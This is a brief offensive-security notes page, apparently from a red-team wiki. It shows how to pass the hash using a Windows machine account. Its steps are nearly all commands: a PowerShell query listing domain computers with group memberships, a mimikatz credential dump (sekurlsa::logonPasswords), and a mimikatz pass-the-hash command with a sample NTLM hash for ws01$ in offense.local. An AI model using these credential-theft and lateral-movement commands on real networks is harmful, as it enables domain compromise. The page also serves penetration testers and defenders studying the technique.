



# Pass the Hash with Machine$ Accounts

## Execution

Finding domain computers that are members of interesting groups:



```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```





Extracting the machine WS01$ NTLM hash after the admin privileges were gained on the system:



```csharp
sekurlsa::logonPasswords
```






Passing the hash:



```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```






## References



